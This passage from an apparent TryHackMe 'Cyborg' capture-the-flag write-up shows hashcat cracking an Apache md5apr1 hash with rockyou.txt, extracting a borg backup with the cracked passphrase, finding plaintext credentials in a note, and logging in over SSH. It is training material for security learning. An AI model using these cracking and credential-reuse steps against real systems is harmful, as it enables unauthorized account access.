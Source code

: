 ```

ATTENTION! Pure (unoptimized) backend kernels selected.
Pure kernels can crack longer passwords, but drastically reduce performance.
If you want to switch to optimized kernels, append -O to your commandline.
See the above message to find out about the exact limits.

Watchdog: Temperature abort trigger set to 90c

Host memory required for this attack: 0 MB

Dictionary cache built:
* Filename..: /usr/share/wordlists/rockyou.txt
* Passwords.: 14344392
* Bytes.....: 139921507
* Keyspace..: 14344385
* Runtime...: 1 sec

$apr1$BpZ.Q.1m$F0qqPwHSOG50URuOVQTTn.:squidward           
                                                          
Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 1600 (Apache $apr1$ MD5, md5apr1, MD5 (APR))
Hash.Target......: $apr1$BpZ.Q.1m$F0qqPwHSOG50URuOVQTTn.
Time.Started.....: Sun Nov 12 15:16:11 2023 (3 secs)
Time.Estimated...: Sun Nov 12 15:16:14 2023 (0 secs)
Kernel.Feature...: Pure Kernel
Guess.Base.......: File (/usr/share/wordlists/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:    12073 H/s (144115188076.33ms) @ Accel:256 Loops:15 Thr:1 Vec:4
Recovered........: 1/1 (100.00%) Digests
Progress.........: 39168/14344385 (0.27%)
Rejected.........: 0/39168 (0.00%)
Restore.Point....: 38400/14344385 (0.27%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:990-1000
Candidate.Engine.: Device Generator
Candidates.#1....: jonah1 -> lynnlynn
Hardware.Mon.#1..: Util: 68%

Started: Sun Nov 12 15:15:28 2023
Stopped: Sun Nov 12 15:16:16 2023
```
- Now we know both the username and the password.
- We are all set to extract the Alex's filesystem. We can use the `borg` utility to do this.
```
$ borg extract /home/kunal/tryhackme/cyborg/home/field/dev/final_archive::music_archive
Enter passphrase for key /home/kunal/tryhackme/cyborg/home/field/dev/final_archive: 
```
- If we then go to the `home/alex/Documents` directory, we see a `note.txt` file. 
- Let's `cat` out the file.
```
$ cat note.txt 
Wow I'm awful at remembering Passwords so I've taken my Friends advice and noting them down!

alex:S3cretP@s3
```
- Let's try to `ssh` into the machine using the above credentials.
```
$ ssh alex@10.10.228.18      
The authenticity of host '10.10.228.18 (10.10.228.18)' can't be established.
ED25519 key fingerprint is SHA256:hJwt8CvQHRU+h3WUZda+Xuvsp1/od2FFuBvZJJvdSHs.
This key is not known by any other names
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.228.18' (ED25519) to the list of known hosts.
alex@10.10.228.18's password: 
```